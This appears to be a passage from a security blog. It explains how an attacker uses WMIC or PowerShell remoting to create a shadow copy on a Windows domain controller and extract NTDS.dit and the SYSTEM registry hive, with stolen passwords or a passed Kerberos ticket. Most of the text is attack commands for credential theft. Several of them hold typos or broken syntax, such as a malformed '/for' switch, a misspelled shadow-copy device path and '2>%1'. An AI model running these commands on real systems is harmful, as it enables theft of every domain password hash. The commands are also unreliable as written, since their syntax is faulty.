

Windows has a built-in management component called WMI that enables remote execution (admin rights required). WMIC is the WMI command tool to execute commands on remote computers.
Matt Graeber presented on leveraging WMI for offensive purposes at Black Hat USA 2015 (paper, slides, and video). Matt also spoke at DEF CON 23 (video) with colleagues and dove further into offensive WMI capability (and again at DerbyCon – video)
Leverage WMIC (or PowerShell remoting) to Create (or copy existing) VSS.
wmic /node:<node> /user:<domain>\<user> /password:<password> process call create "cmd /c vssadmin create shadow /for"c: 2>&1 c:\vss.log"


Once the VSS snapshot has completed, we then copy the NTDS.dit file and the System registry hive out of the VSS to the c: drive on the DC.

wmic /node:<node> /user:<domain>\<user> /password:<password> process call create "cmd /c copy \\?\GLOBALROOT\Device\HardiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\windows\temp\NTDS.dit 2>&1 > C:\vss2.log"

wmic /node:<node> /user:<domain>\<user> /password:<password> process call create "cmd /c copy \\?\GLOBALROOT\Device\HardiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\windows\temp\SYSTEM.hive 2>&1 > C:\vss2.log"

After the files are in the c:\temp folder on the DC, we copy the files to local computer.
copy \\<computer>\c$\windows\temp\ntds.dit c:\temp
copy \\<computer>\c$\windows\temp\system.hive c:\temp


This screenshot shows the attacker used the clear text password discovered earlier using Mimikatz. What if we don’t have that?
The attacker can pass a Kerberos ticket with WMIC to do the same thing.
wmic /authority:"kerberos:<domain>\<computer>" /node:<computer> process call create "cmd /c copy \\?\GLOBALROOT\Device\HardDisk\VolumeShadowCopy1\Windows\NTDS.dit c:\windows\temp\ntds.dit 2>%1"

wmic /authority:"kerberos:<domain>\<computer>" /node:<computer> process call create "cmd /c vssadmin create shadow /for=c: 2>&1" 

Note that with newer versions of Windows, WMIC is deprectated. PowerShell provides the same functionality with the Invoke-WMIMethod cmdlet.